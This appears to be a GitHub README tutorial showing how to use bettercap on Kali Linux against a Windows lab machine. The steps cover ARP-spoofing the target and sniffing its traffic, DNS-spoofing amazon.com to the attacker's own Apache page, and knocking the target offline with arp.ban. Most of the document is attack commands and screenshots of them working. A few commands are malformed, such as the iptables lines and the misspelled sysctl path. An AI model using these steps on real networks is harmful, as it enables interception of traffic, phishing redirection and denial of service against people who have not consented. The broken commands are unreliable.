 # Dns-Spoofing-with-bettercap
DNS Spoofing: How to Perform the Attack
To execute DNS spoofing, we will need a Kali Linux machine and a target machine running Windows 7, XP, or 10... Now, let's proceed!
![Anwer Lahami](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/DNS-spoofing.jpg)
### installing bettercap :
Bettercap is written in Go and provides a variety of features for interacting with networks, capturing and analyzing data, and performing various security-related tasks.
```
sudo apt-get update
sudo apt install bettercap
```
### lunching Bettercap: 
we can now lunch it using :
```
sudo bettercap
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/0292bf7c-1b96-424b-924b-2b639f8372fa)

then type ```help``` 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/b3e30087-72bd-49d1-abf0-317f2ed9c7cb)

we can see net.probe && net.recon are not running , net.probe : this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them.
to activate it: 

```
net.probe on
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/8ac8972c-03df-48b6-89af-ec0818e467c6)

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3ca31fca-9f19-458a-829f-c5639502fa6e)

### ARP spoof attack:
first let's check the table arp in our target machine

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ac5bf67a-c2c7-42e7-beea-528b65fbcf71)

we can see the adrees of the router and our Kali machine
then let's from our machine check the module ARP.spoof using:
```
help arp.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a34af5aa-93aa-4c3c-96b5-05d5d54b8049)

#### setting the environnement for the attack
Let's execute the following command:
```set arp.spoof.fullduplex true``` 
this means that we will target both the router and the target machine (in our case windowsXP) 
!!! if the router has ARP spoofing protections in place this will make the attack fail (default=false)
```
set arp.spoof.target @ip Target machine
```
NOTE: we can replace @ip target machine with a range of address seperated by a commas or a subnet
to sniff the traffic and redirect to our machine 
```
set net.sniff.local true
```
we can type 
```
help net.sniff to see more infomation
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bette
rcap/assets/124587170/161885a6-e95c-46d8-a072-01eaa1ae5b01)
#### executing the attack
```
arp.spoof on
net.sniff on
```
WARNING: in some case will see this type of message 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/6e48d7c7-ac49-43c0-9ab6-225d3b00b3c6)

#### solving the issue :
!! first insure that your apache2 serveur is stopped
else:
we need to redirect the packet in and out of our machine so we need to set the machine to forward the packets:
```
iptables -arp -a FORWARD -i (your interface in my case 'eth0') -j ACCEPT
iptables -arp -a FORWARD -o (your interface in my case 'eth0') -j ACCEPT
nano /etc/systcl.conf
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/2dabac88-e54a-482b-9375-f0484e4910c4)

now we can see the raffic of the target machine and let's check it's arp table:

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/89a095a5-e9ce-4d49-88ee-ef6da9712d43)

We can even visualize and see the data sended it in the http mode 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a078902b-1da0-4b66-afef-421797d2e6d9)

this attack is not available now since many website disable their http version 
###DNS spoofing
Now we are going to spoof a DNS
let's see the module in bettercap using:

```
help dns.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/536274db-d932-4aaa-ad6f-40b8b0e6ec8e)

what we want to do here is to take a domain and spoof it back to my IP address
first let's start our apache2 server:
```
sudo service apache2 start
```
if we type 127.0.0.1 in ou kali machine we can see the index  page :
! if your asking how change the index.html file just do the following commands:
```
cd /var/www/html
sudo nano index.html
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ccd2cfe9-60a1-4220-9439-9c57a36f38c9)

then let's go to our terminal:
```
set dns.spoof.domains amazon.com
set dns.spoof.address @ip_kali
dns.spoof on 
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/dd901841-ef02-4349-a973-f4af9b8bab81)

now let's go to the target and type: amazon.com

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/71ac0d35-818a-42b7-a0be-fad53a6163b2)

### DOS using ARP 
```
arp.ban on
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3c3d4c50-d1a2-45c6-a6d0-16732bb48028)

Start ARP spoofer in ban mode, meaning the target(s) connectivity will not work.

for additionnal informations:
https://www.bettercap.org/modules

